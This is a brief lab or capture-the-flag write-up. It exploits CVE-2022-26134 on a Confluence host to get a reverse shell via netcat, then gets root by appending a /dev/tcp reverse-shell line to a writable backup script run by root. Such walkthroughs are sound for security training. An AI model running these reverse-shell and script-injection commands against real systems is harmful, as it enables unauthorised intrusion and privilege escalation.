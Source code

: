 ![](../attachment/7204144fffd244fcc54b2105e3ab75af.png)

Using this [exploit](https://github.com/hev0x/CVE-2022-26134)
```
python3 exploit.py -u http://192.168.241.41:8090/ -c 'busybox nc 192.168.45.166 8090 -e bash'
```
![](../attachment/94586661de2724262cc60281bcfec8d7.png)
We get a shell

Running pspy:
![](../attachment/6f35c244255c60f37bc9859e27708471.png)

![](../attachment/b769df066529fc18d9bd37f40ca6c7ca.png)

We can write to it:
![](../attachment/edccf9ae233588b3eda29c5a8165707a.png)
```
echo 'sh -i >& /dev/tcp/192.168.45.166/4444 0>&1' >> log-backup.sh
```

Now listening on our kali machine:
```
sudo rlwrap -nlvp 4444
```
![](../attachment/9a83d6981fb59a648cbb73cc290f2f17.png)
We get a shell as root.(Using penelope in picture).

